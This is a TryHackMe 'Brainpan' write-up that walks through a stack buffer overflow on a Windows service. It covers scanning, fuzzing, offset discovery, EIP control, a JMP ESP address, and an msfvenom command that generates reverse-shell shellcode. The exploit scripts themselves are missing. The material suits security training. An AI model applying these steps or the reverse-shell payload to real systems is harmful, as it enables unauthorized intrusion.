 ```yaml
---
title: "BrainPan-Tryhackme"
author: "Trevor saudi"
date: 2021-04-05T18:46:03.757Z
lastmod: 2022-05-24T14:31:47+03:00

description: ""

subtitle: "Exploit a buffer overflow vulnerability by analyzing a Windows executable."

image: "/posts/2021-04-05_brainpantryhackme/images/1.png" 
images:
 - "/posts/2021-04-05_brainpantryhackme/images/1.png"
 - "/posts/2021-04-05_brainpantryhackme/images/2.png"
 - "/posts/2021-04-05_brainpantryhackme/images/3.png"
 - "/posts/2021-04-05_brainpantryhackme/images/4.png"
 - "/posts/2021-04-05_brainpantryhackme/images/5.png"
 - "/posts/2021-04-05_brainpantryhackme/images/6.png"
 - "/posts/2021-04-05_brainpantryhackme/images/7.png"
 - "/posts/2021-04-05_brainpantryhackme/images/8.png"
 - "/posts/2021-04-05_brainpantryhackme/images/9.png"
 - "/posts/2021-04-05_brainpantryhackme/images/10.png"
 - "/posts/2021-04-05_brainpantryhackme/images/11.png"
 - "/posts/2021-04-05_brainpantryhackme/images/12.png"
 - "/posts/2021-04-05_brainpantryhackme/images/13.png"
 - "/posts/2021-04-05_brainpantryhackme/images/14.png"
 - "/posts/2021-04-05_brainpantryhackme/images/15.png"
 - "/posts/2021-04-05_brainpantryhackme/images/16.png"
 - "/posts/2021-04-05_brainpantryhackme/images/17.png"
 - "/posts/2021-04-05_brainpantryhackme/images/18.png"
 - "/posts/2021-04-05_brainpantryhackme/images/19.png"


aliases:
    - "/brainpan-tryhackme-ced123611c56"

---
```


![image](/posts/2021-04-05_brainpantryhackme/images/1.png#layoutTextWidth)


Exploit a buffer overflow vulnerability by analyzing a Windows executable.

**Enumeration**

Perform a quick rustscan to view open ports.

![image](/posts/2021-04-05_brainpantryhackme/images/2.png#layoutTextWidth)


Port our results to nmap.

![image](/posts/2021-04-05_brainpantryhackme/images/3.png#layoutTextWidth)


Not much information but I tried opening them on my browser. Port 9999 gave nothing but 10000 opens up a website as shown below.

![image](/posts/2021-04-05_brainpantryhackme/images/4.png#layoutTextWidth)


I bruteforced for some directories and found something interesting.

![image](/posts/2021-04-05_brainpantryhackme/images/5.png#layoutTextWidth)


This directory contains an executable file which is the application running on port 9999.

![image](/posts/2021-04-05_brainpantryhackme/images/6.png#layoutTextWidth)


Trying a netcat to port 9999. We get this password prompt.

![image](/posts/2021-04-05_brainpantryhackme/images/7.png#layoutTextWidth)


**Fuzzing**

We are working with a buffer overflow, so let us trying crashing the application running on port 9999

![image](/posts/2021-04-05_brainpantryhackme/images/8.png#layoutTextWidth)


We indeed get a crashing confirming existence of a buffer overflow.

Download the executable file and transfer it to your Windows VM. We will work with Immunity debugger.

Run the application and try connecting to it using our VM’s IP.

![image](/posts/2021-04-05_brainpantryhackme/images/9.png#layoutTextWidth)


We can test the connection using netcat. We get the connection back. Everything set up, let’s get hacking :)

![image](/posts/2021-04-05_brainpantryhackme/images/10.png#layoutTextWidth)


**Step 1: Finding the size of the crash**

We need to find the approximate number of bytes that crashed our application. Attach it to immunity debugger and we can write a python script to send some bytes to the application till it crashes.




Head over to immunity debugger and see that our application crashed

![image](/posts/2021-04-05_brainpantryhackme/images/11.png#layoutTextWidth)


To calculate the size of the crash, right click on esp , follow in dump. Check the address where the As start and end

![image](/posts/2021-04-05_brainpantryhackme/images/12.png#layoutTextWidth)


We get 2072. We will use this as the default length of bytes.

Modify our script as follows.




**Step 2: Finding the offset**

Next we need to find out the exact number of bytes within the total_length that actually cause the crash. We use msf pattern create and pattern offset.
`/usr/bin/msf-pattern_create -l 2072`

Copy the result and modify our script as follows




Run the script and note the value of the EIP
`/usr/bin/msf-pattern_offset -l 2072 -q 35724134                         
[*] Exact match at offset 524`

We get our offset at 524. This means we have exactly 524 bytes before we reach the EIP register

**Step 3: Controlling the EIP**

We modify our script as follows and observe the EIP register




We try controlling the EIP with 4Bs and get the ascii value for B as 42424242 on the EIP register.

![image](/posts/2021-04-05_brainpantryhackme/images/13.png#layoutTextWidth)


We have control over the EIP.

**Step 4: Finding the bad characters**

We need to determine the characters that brainpan does not like. This will help us create our payload without the bad characters.

I like to use the struct inbuilt module with list comprehension. Modify your script as follows and send the bad characters.




We can observe the characters in the hex dump and see if we get any bad ones. Luckily for us there are no bad characters here.

![image](/posts/2021-04-05_brainpantryhackme/images/14.png#layoutTextWidth)


**Step 5: Finding a JMP ESP instruction**

We need to find a JMP ESP instruction that will take us to the top of the stack. We will use this JMP ESP as the new EIP so that we hijack the control flow of the program.

We can use the mona module
`!mona jmp -r esp `

We get an address that points to a jmp esp instruction

![image](/posts/2021-04-05_brainpantryhackme/images/15.png#layoutTextWidth)
`0x311712F3`

Set a breakpoint at that instruction. Ctrl+G , enter the address value then press enter and set breakpoint.

![image](/posts/2021-04-05_brainpantryhackme/images/16.png#layoutTextWidth)


Modify our script as follows and observe that we hit the breakpoint,




step through the code using f7 and observe how we get redirected to the top of the stack

![image](/posts/2021-04-05_brainpantryhackme/images/17.png#layoutTextWidth)


**Step 6: Generating shellcode**

Now we can generate shellcode to get a reverse shell on our program
`msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=4444 -e x86/shikata_ga_nai -f py -b &#34;\x00&#34;`

Modify our script and send the payload while listening on port 4444

![image](/posts/2021-04-05_brainpantryhackme/images/18.png#layoutTextWidth)


Sweet :) Our exploit worked. Now recreate the shellcode but with tun0 for tryhackme local IP. Change the IP in the script to the remote IP




We get a shell :)

![image](/posts/2021-04-05_brainpantryhackme/images/19.png#layoutTextWidth)


Happy hacking :)
